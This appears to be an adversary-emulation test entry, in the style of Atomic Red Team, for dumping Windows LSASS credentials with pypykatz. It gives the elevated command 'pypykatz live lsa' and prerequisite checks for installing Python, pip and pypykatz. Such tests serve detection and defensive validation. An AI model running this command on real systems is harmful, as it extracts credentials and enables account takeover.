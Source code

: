 **auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
pypykatz live lsa
```

#### Dependencies: Run with `command_prompt`!

##### Description: Computer must have python 3 installed

##### Check Prereq Commands:

```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```

##### Get Prereq Commands:

```cmd
echo "Python 3 must be installed manually"
```

##### Description: Computer must have pip installed

##### Check Prereq Commands:

```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```

##### Get Prereq Commands:

```cmd
echo "PIP must be installed manually"
```

##### Description: pypykatz must be installed and part of PATH

##### Check Prereq Commands:

```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```

##### Get Prereq Commands:

```cmd
pip install pypykatz
```

<br/>
<br/>
